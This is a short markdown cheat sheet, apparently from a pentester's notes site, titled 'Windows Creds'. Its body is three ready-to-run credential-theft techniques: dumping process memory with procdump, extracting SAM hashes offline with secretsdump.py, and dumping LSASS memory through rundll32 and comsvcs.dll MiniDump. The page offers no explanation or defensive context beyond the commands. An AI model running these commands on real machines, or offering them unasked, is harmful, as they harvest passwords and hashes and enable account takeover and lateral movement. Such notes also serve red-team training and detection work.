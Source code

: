 ```yaml
---
layout: post
title: "Windows Creds"
tags: ["SAM","LSASS","Secrets"]
section: "Windows"

---
```

# Dump hashes

```powershell
.\procdump64.exe -accepteula -ma 580 out.dmp2
```

# Crack offline SAM accounts

```bash
python secretsdump.py -system "systemfile" -sam "samfile"  LOCAL
```

# DUMP

## comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full
```